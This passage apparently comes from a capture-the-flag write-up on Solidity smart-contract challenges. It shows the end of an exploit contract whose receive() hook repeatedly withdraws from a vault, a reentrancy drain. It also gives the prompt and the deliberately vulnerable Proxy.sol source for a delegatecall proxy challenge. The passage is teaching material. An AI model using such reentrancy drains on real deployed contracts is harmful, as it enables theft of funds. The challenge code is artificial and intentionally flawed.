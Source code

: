 ```solidity
        // I need my testnet tokens back
        msg.sender.call{value : address(this).balance}("");
    }

    receive() payable external{
        if (address(vault).balance >= 0.001 ether){
            vault.withdraw(0.001 ether);
        }
    }
}
```

{% end %}

# Proxy

P: "You've encountered a proxy contract setup where the Proxy delegates calls to an Executor implementation. Find a way to manipulate the logic and get isSolved to return true."

{% note(clickable=true, header="Proxy.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-4.8.0/contracts/utils/Address.sol"; 
import "@openzeppelin-contracts-4.8.0/contracts/proxy/utils/Initializable.sol";

contract Proxy {
    // bytes32(uint256(keccak256("eip1967.proxy.implementation")) - 1)
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    constructor(address _logic, address _player) {
        require(Address.isContract(_logic), "implementation_not_contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;

        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize(address)", _player)
        );

        require(success, "call_failed");
    }
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
    // proxy fallback
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
```